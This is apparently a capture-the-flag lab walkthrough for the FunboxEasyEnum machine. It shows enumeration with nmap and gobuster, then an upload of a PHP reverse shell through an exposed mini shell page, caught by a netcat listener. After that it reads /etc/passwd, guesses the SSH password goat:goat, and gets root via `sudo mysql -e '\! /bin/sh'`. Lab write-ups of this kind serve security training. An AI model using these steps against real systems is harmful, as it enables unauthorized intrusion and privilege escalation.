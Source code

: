 Exploitation Guide for FunboxEasyEnum
Summary

In this walkthrough, we’ll exploit a file upload vulnerability in a web application to gain a foothold on the target. This leads to remote code execution. We’ll then use simple, manual password guessing to escalate our privileges and abuse the user’s sudo permissions on the mysql binary to spawn a root shell.
Enumeration
Nmap

We’ll begin with a simple nmap scan.

┌──(kali㉿kali)-[~]
└─$ sudo nmap 192.168.120.148     
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-16 10:27 EST
Nmap scan report for 192.168.120.148
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

If we browse the web server on port 80, we find a default Apache web page.
GoBuster

Next, we’ll try brute-forcing the web server’s hidden files and directories with the /usr/share/dirb/wordlists/common.txt wordlist, searching for PHP, text, and HTML files.

┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.120.148 -w /usr/share/dirb/wordlists/common.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
...
/index.html (Status: 200)
/javascript (Status: 301)
/mini.php (Status: 200)
/phpmyadmin (Status: 301)
/robots.txt (Status: 200)
...

The output includes mini.php which contains a custom Zerion Mini Shell 1.0 application.

Exploitation
File Upload Vulnerability

This page may allow uploads to the web root (/var/www/html/). Since the PHP file format seems to be supported, let’s try uploading a PHP reverse shell. We’ll update the IP address and port number as needed.

┌──(kali㉿kali)-[~]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ sed -i "s/$ip = '127.0.0.1';/$ip = '192.168.118.5';/g" php-reverse-shell.php                            
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ sed -i "s/$port = 1234;/$port = 4444;/g" php-reverse-shell.php
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$

Next, we’ll click Browse, select our reverse shell file, and click upload. Once uploaded, the file appears in the web root directory listing. Let’s start a Netcat listener on port 4444 and trigger our shell by navigating to http://192.168.120.148/php-reverse-shell.php.

┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.148/php-reverse-shell.php                                          
WARNING: Failed to daemonise.  This is quite common and not fatal.
Successfully opened reverse shell to 192.168.118.5:4444
...

Our Netcat listener presents us with a shell as the www-data user.

┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.148] 34362
Linux funbox7 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:54:03 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Escalation
User Enumeration

As part of our enumeration efforts, let’s check the user accounts on the target:

$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
karla:x:1000:1000:karla:/home/karla:/bin/bash
...
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh

Although the file contains the password hash for the user oracle, cracking that password finds hiphop , but not further for privesc.

The passwd file contains several users, and every user, except for lissy, has a home directory:

$ ls -l /home
total 20
drwxr-xr-x 2 goat   goat   4096 Feb 16 13:25 goat
drwxr-xr-x 2 harry  harry  4096 Jan 28 12:03 harry
drwxr-xr-x 2 karla  karla  4096 Feb 16 13:23 karla
drwxr-xr-x 2 oracle oracle 4096 Feb 16 13:23 oracle
drwxr-xr-x 2 sally  sally  4096 Jan 28 12:03 sally

SSH

We could use a tool like hydra to mount an online SSH brute-force attack (which will take several minutes), but let’s take a step back and try some less-complicated password attempts. We’ll begin by attempting the username as the password for each user. Here are the username and password pairs we’ll attempt:

goat:goat
harry:harry
karla:karla
oracle:oracle
sally:sally

One of the credential pairs (goat:goat) works!

┌──(kali㉿kali)-[~]
└─$ ssh goat@192.168.120.148
goat@192.168.120.148's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-117-generic x86_64)
...
goat@funbox7:~$ id
uid=1003(goat) gid=1003(goat) groups=1003(goat),111(ssh)

Sudo Abuse

Now, let’s attempt to escalate our privileges. We’ll begin with a quick sudo scan:

goat@funbox7:~$ sudo -l
Matching Defaults entries for goat on funbox7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goat may run the following commands on funbox7:
    (root) NOPASSWD: /usr/bin/mysql

The scan reveals that we can run /usr/bin/mysql as root through sudo. A GTFOBins article presents a simple command that may give us a root shell.

goat@funbox7:~$ whoami
goat
goat@funbox7:~$ sudo /usr/bin/mysql -e '\! /bin/sh'
# whoami
root


